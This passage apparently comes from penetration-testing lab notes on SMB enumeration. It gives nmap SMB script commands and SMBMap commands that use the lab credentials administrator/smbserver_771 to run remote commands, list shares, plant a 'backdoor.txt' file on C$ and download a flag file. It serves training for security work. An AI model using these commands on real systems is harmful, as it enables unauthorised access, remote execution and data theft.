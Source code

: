 <figure><img src="../../.gitbook/assets/28.png" alt=""><figcaption></figcaption></figure>

7. smb-enum-domains

```powershell
PS> nmap 10.3.31.161 -p 445 --script smb-enum-domains --script-args smbusername=administrator smbpassword=smbserver_771
```

<figure><img src="../../.gitbook/assets/29.png" alt=""><figcaption></figcaption></figure>

8. smb-enum-groups

```powershell
PS> nmap 10.3.31.161 -p 445 --script smb-enum-groups --script-args smbusername=administrator smbpassword=smbserver_771
```

<figure><img src="../../.gitbook/assets/30.png" alt=""><figcaption></figcaption></figure>

9. smb-enum-services

```powershell
PS> nmap 10.3.31.161 -p 445 --script smb-enum-services --script-args smbusername=administrator smbpassword=smbserver_771
```

<figure><img src="../../.gitbook/assets/31.png" alt=""><figcaption></figcaption></figure>

10. smb-ls

```bash
john@kali> nmap 10.13.17.58 -p 445 --script smb-ls --script-args smbusername=administrator,smbpassword=smbserver_771
```

<figure><img src="../../.gitbook/assets/32.png" alt=""><figcaption></figcaption></figure>

By the way, it's possible to enumerate several script at the same time.

```bash
john@kali> nmap 10.13.17.58 -p 445 --script smb-enum-shares,smb-ls --script-args smbusername=administrator,smbpassword=smbserver_771
```

#### SMBMap

```bash
john@kali> ping 10.3.29.243
john@kali> nmap 10.3.29.243
john@kali> nmap -p445 --script smb-protocols 10.3.29.243
john@kali> smbmap -u guest -p '' -H 10.3.29.243
john@kali> smbmap -u administrator -p smbserver_771 -H 10.3.29.243
john@kali> smbmap -u administrator -p smbserver_771 -H 10.3.29.243 -x 'ipconfig'
john@kali> smbmap -u administrator -p smbserver_771 -H 10.3.29.243 -x 'dir'
john@kali> smbmap -u administrator -p smbserver_771 -H 10.3.29.243 -L
john@kali> smbmap -u administrator -p smbserver_771 -H 10.3.29.243 -r 'c$'

john@kali> echo 'Hello backdoor' > backdoor.txt
john@kali> smbmap -u administrator -p smbserver_771 -H 10.3.29.243 --upload 'backdoor.txt' 'c$\backdoor.txt'

john@kali> smbmap -u administrator -p smbserver_771 -H 10.3.29.243 --download 'c$\flag.txt'
john@kali> cat 10.3.29.243-C_flag.txt
```
